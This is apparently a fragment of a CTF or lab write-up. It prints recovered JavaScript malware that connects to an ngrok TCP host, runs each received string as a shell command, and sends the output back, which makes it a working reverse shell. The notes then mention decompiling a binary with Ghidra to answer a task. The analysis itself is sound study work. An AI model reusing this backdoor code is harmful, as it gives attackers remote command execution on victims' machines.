 ```js
  fs.writeFile(lockFilePath, '', error => {
    if (error) {
      console.error(error);
    }
  });

  (function () {
    // Create a new socket connection
    const socket = new net.Socket();
    socket.connect(16587, "6.tcp.eu.ngrok.io");

    // Handle incoming data from the socket
    socket.on("data", data => {
      const command = data.toString();
      require("child_process").exec(command, (error, stdout, stderr) => {
        if (error) {
          socket.write(stderr);
        } else {
          socket.write(stdout);
        }
      });
    });

    // Handle socket close event
    socket.on("close", () => {
      console.log("Socket connection closed");
    });

    return /a/; // Keeps the function from being optimized away
  })();
}
```

![87119aab785e23d551c8350a54288a56.png](../../../_resources/87119aab785e23d551c8350a54288a56.png)
We could also find task 9 answer by decompiled binary with Ghidra like this
